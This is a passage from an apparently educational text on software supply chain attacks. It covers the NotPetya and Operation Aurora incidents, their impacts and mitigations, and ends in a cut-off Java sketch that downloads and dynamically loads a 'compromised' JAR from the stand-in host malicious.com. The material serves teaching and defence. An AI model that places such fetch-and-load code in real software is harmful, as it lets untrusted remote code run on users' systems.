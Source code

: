 * - NotPetya Attack: The NotPetya ransomware attack in 2017 used a supply chain attack vector by compromising a software update mechanism in a widely-used Ukrainian accounting software. The malware spread to other systems when the compromised software updates were installed, causing widespread damage globally.

* - Operation Aurora: This attack, discovered in 2009, targeted several major technology companies by compromising their supply chain partners. The attackers gained access to sensitive data and intellectual property by exploiting vulnerabilities in the software supply chain.

2. Impact of Supply Chain Attacks:

* - Large-scale compromise: Supply chain attacks have the potential to impact a significant number of organizations or individuals who rely on the compromised software or hardware.
* - Stealthy nature: Since the attack occurs at a trusted stage of the supply chain, it can be challenging to detect and mitigate the compromised components.
* - Reputation damage: Organizations involved in the supply chain attack may face severe reputational damage, loss of customer trust, and financial repercussions.

3. Mitigation and Prevention:

* - Vendor management: Implement a thorough vetting process for suppliers, vendors, and third-party components, including assessing their security practices and track record.
* - Secure development practices: Employ secure coding practices, vulnerability scanning, and rigorous testing throughout the software development lifecycle.
* - Code integrity verification: Implement measures to ensure the integrity of software code during distribution and deployment, such as digital signatures or checksum verification.
* - Monitoring and detection: Deploy robust monitoring and detection mechanisms to identify suspicious activities, anomalous behavior, or signs of compromise within the supply chain.


> Here's an example in Java that demonstrates a simplified scenario of a supply chain attack:

```java
import java.io.IOException;
import java.net.URL;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.StandardCopyOption;

public class Application {
    public static void main(String[] args) {
        // Download and load the compromised library from a malicious source
        try {
            downloadAndLoadCompromisedLibrary();
        } catch (IOException e) {
            System.err.println("Failed to download and load the compromised library.");
            e.printStackTrace();
            return;
        }

        // Use the library in the application
        System.out.println("Performing normal operations...");
        // ...

        // The compromised library includes a backdoor
        CompromisedLibrary.doSomethingMalicious();
    }

    private static void downloadAndLoadCompromisedLibrary() throws IOException {
        // Download the compromised library from a malicious source
        URL maliciousSource = new URL("http://malicious.com/compromised-library.jar");
        Path tempFilePath = Files.createTempFile("compromised-library", ".jar");
        Files.copy(maliciousSource.openStream(), tempFilePath, StandardCopyOption.REPLACE_EXISTING);

        // Load the compromised library dynamically
        ClassLoader classLoader = ClassLoader.getSystemClassLoader();
```